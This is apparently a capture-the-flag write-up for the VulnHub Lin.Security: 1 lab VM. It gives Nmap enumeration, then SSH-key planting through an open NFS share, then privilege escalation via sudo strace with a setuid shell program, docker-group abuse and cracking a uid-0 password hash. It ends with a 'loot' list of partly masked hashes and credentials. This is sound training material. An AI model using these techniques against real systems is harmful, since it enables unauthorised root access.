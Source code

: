 [VulnHub] Lin.Security: 1
===============
date: 10/Oct/2019
summary: This is the summary for an awesome post.
tags: vulnhub, writeup

## Overview
This is a writeup for VulnHub VM [Lin.Security: 1](https://www.vulnhub.com/entry/linsecurity-1,244/). Here's an overview of the `enumeration → exploitation → privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_vulnhub_linsecurity1/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Wed Oct  9 19:28:13 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.linsecurity1/results/192.168.92.186/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.linsecurity1/results/192.168.92.186/scans/xml/_quick_tcp_nmap.xml 192.168.92.186
Nmap scan report for 192.168.92.186
Host is up, received arp-response (0.0024s latency).
Scanned at 2019-10-09 19:28:19 PDT for 8s
Not shown: 997 closed ports
Reason: 997 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7a:9b:b9:32:6f:95:77:10:c0:a0:80:35:34:b1:c0:00 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC6IO+zWqbr1ygGx4JPZUC/turDfHidMFqfTWv8glTZnpLnY6ZTTdQ8/HfSgAtwXSdOvSy6QwzSFxamx+TlV0mdrc8oJrcltmA31M0JwrGvCIQspLPuPDNgG3TwJitEb+HyS+PX0/hIIxnPz2LDl6E4/o0Va6HjA4p7qFKCt4PESN47lRvwMBiQjCucTf08yy9VZ7k2JJOvK9X/ebBz2OF3tJJHN3wiezMTIi7xAYSaT8XBHjf/3awUVqASEowf2gd14V8MM6ASwMVhcFGt0/DKxdXuiddphI67Z+3HCR3JsHgKl3nvhSmgTf5ZHt3HPgoe5XmL6LDjmkUGIdNrBya9
|   256 24:0c:7a:82:78:18:2d:66:46:3b:1a:36:22:06:e1:a1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEGq7yVBMw51IUPgAkmf4d8s6nVCPvcgXngPgU6tbTbFeFMUy1Do5mJziIp3eyLrFgZlTkfhjRdYhBoX/ZkM36Q=
|   256 b9:15:59:78:85:78:9e:a5:e6:16:f6:cf:96:2d:1d:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICl+R8URLpkAb92x1+AMcdkp8qCHXphnD8fI+ObeoNs/
111/tcp  open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  3           2049/udp  nfs
|   100003  3,4         2049/tcp  nfs
|   100005  1,2,3      37211/tcp  mountd
|   100005  1,2,3      37678/udp  mountd
|   100021  1,3,4      39735/tcp  nlockmgr
|   100021  1,3,4      43597/udp  nlockmgr
|   100227  3           2049/tcp  nfs_acl
|_  100227  3           2049/udp  nfs_acl
2049/tcp open  nfs_acl syn-ack ttl 64 3 (RPC #100227)
MAC Address: 00:0C:29:07:84:F0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  9 19:28:27 2019 -- 1 IP address (1 host up) scanned in 14.69 seconds
```

2\. We find that there is an open NFS share for the `/home/peter` directory on the target system:  
```
showmount -e 192.168.92.186
```

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_linsecurity1/screenshot01.png)  

### Findings
#### Open Ports:
```
22/tcp     |  ssh       |  OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
111/tcp    |  rpcbind   |  2-4 (RPC #100000)
2049/tcp   |  nfs_acl   |  3 (RPC #100227)
37211/tcp  |  mountd    |  1-3 (RPC #100005)
39735/tcp  |  nlockmgr  |  1-4 (RPC #100021)
53127/tcp  |  mountd    |  1-3 (RPC #100005)
57997/tcp  |  mountd    |  1-3 (RPC #100005)
```
#### Users
```
ssh: peter
```

## Phase #2: Exploitation
1\. We mount this share locally and copy our SSH public key to the newly created `.ssh` directory within mounted NFS share:  
```
cp ~/.ssh/id_rsa.pub ./authorized_keys
mkdir share
mount 192.168.92.186:/home/peter share/ -o vers=3
useradd -u 1001 peter
su peter
cd share
mkdir .ssh
cp ../authorized_keys .ssh/
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_linsecurity1/screenshot02.png)  

![writeup.exploitation.steps.1.2](/static/files/posts_vulnhub_linsecurity1/screenshot03.png)  

![writeup.exploitation.steps.1.3](/static/files/posts_vulnhub_linsecurity1/screenshot04.png)  

2\. Now we can SSH into the target system as user `peter`:  
```
ssh peter@192.168.92.186
```

![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_linsecurity1/screenshot05.png)  

3\. We find an interesting file `.secret` under user `susan`'s home directory. This file has the password in cleartext which we can use to login:  
```
cat /home/susan/.secret
su susan
```

![writeup.exploitation.steps.3.1](/static/files/posts_vulnhub_linsecurity1/screenshot06.png)  

## Phase #2.5: Post Exploitation
```
peter@linsecurity> id
uid=1001(peter) gid=1005(peter) groups=1005(peter),999(docker)
peter@linsecurity>  
peter@linsecurity> uname
Linux linsecurity 4.15.0-23-generic #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
peter@linsecurity>  
peter@linsecurity> ifconfig
ens33:  flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.92.186  netmask 255.255.255.0  broadcast 192.168.92.255
        inet6 fe80::20c:29ff:fe07:84f0  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:07:84:f0  txqueuelen 1000  (Ethernet)
        RX packets 124781  bytes 75456965 (75.4 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 99458  bytes 6136016 (6.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
peter@linsecurity>  
peter@linsecurity> users
bob
peter
susan
```

## Phase #3: Privilege Escalation
1\. We find that the user `peter` can run `strace` with elevated privileges. This gives us a option to elevate privileges by tracing a program that spawns a shell:  
```
nano privesc.c
  #include <stdlib.h>
  #include <unistd.h>
  int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
  }
gcc -o privesc privesc.c
sudo strace ./privesc
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_linsecurity1/screenshot07.png)  

![writeup.privesc.steps.1.2](/static/files/posts_vulnhub_linsecurity1/screenshot08.png)  

2\. We can also elevate privileges using `docker` since the user `peter` is already a member of group `docker`:  
```
mkdir docker-test
cd docker-test
cat > Dockerfile
  FROM debian:wheezy
  ENV WORKDIR /stuff
  RUN mkdir -p $WORKDIR
  VOLUME [ $WORKDIR ]
  WORKDIR $WORKDIR
  << EOF
docker build -t my-docker-image .
docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh'
./sh
```

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_linsecurity1/screenshot09.png)  

![writeup.privesc.steps.2.2](/static/files/posts_vulnhub_linsecurity1/screenshot10.png)  

![writeup.privesc.steps.2.3](/static/files/posts_vulnhub_linsecurity1/screenshot11.png)  

3\. We find that the user `insecurity`'s (unsalted) password hash is stored within `/etc/passwd`. We run a bruteforce on this hash to get the cleartext password. Since this user has same uid/gid as user `root`, we get elevated access on the target system:  
```
cat /etc/passwd
echo "insecurity:AzER3pBZh6WZE:0:0::/:/bin/sh" >passwd
john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt passwd
  P@ssw0rd         (insecurity)
ssh insecurity@192.168.92.186
```

![writeup.privesc.steps.3.1](/static/files/posts_vulnhub_linsecurity1/screenshot12.png)  

![writeup.privesc.steps.3.2](/static/files/posts_vulnhub_linsecurity1/screenshot13.png)  

## Loot
### Hashes
```
root:$6$aorWKpxj$yOgku4F1ZRbqvSxxUtAYY2/6K/UU5wLobTSz/Pw5/ILvXgq9NibQ0/NQbOr1Wzp2bTbpNQr1jNNlaGjXD........................
bob:$6$Kk0DA.6Xha4nL2p5$jq7qoit2l4ckULg1ZxcbL5wUz2Ld2ZUa.RYaIMs.Lma0EFGheX9yCXfKy37K0GsHz50FYIqIESo4QXWL.........................
peter:$6$QpjS4vUG$Zi1KcJ7cRB8TJG9A/x7GhQQvJ0RoYwG4Jxj/6R58SJddU2X/QTQKNJWzwiByeTELKeyp0vS83kPsYITbT........................
susan:$6$5oSmml7K$0joeavcuzw4qxDJ2LsD1ablUIrFhycVoIXL3rxN/3q2lVpQOKLufta5tqMRIh30Gb32IBp5yZ7XvBR6uX........................
```
### Credentials
```
ssh: bob/secr.., susan/MySuperS3cretV....., insecurity/P@ss....
```
## References
* <https://www.vulnhub.com/entry/linsecurity-1,244/>  
* <https://in.security/lin-security-walkthrough/>  
* <https://hackso.me/lin.security-1-walkthrough/>  
